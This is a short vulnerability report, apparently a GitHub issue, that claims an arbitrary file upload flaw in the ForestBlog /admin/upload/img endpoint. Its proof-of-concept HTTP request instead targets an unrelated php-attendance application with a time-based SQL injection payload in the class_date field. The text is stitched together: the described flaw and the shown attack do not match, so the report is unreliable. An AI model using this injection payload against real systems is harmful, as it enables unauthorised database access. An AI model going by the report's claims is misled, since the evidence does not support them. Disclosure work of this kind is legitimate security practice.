

**BUG_Author:**

Daydust

**Vendor:**

https://github.com/saysky/ForestBlog

**Software:**

https://github.com/saysky/ForestBlog

**Vulnerability File:**

ForestBlog-master/ForestBlog/src/main/java/com/liuyanzhao/ssm/blog/controller/admin/UploadFileController.java

**Description:**
ForestBlog Exists Arbitrary File Upload Vulnerability on /admin/upload/img Interface



```http
POST /php-attendance/ajax-api.php?action=save_attendance HTTP/1.1
Host: 172.21.48.180
Content-Length: 93
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.21.48.180
Referer: http://172.21.48.180/php-attendance/?page=attendance&class_id=2&class_date=2023-11-30
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=tpml2ej1cjqohlua4pf82lbn2l
Connection: close

class_id=4&class_date=2023-12-09' AND  if(1=1,sleep(5),2) and'1'='1&student_id[]=7&status[]=1
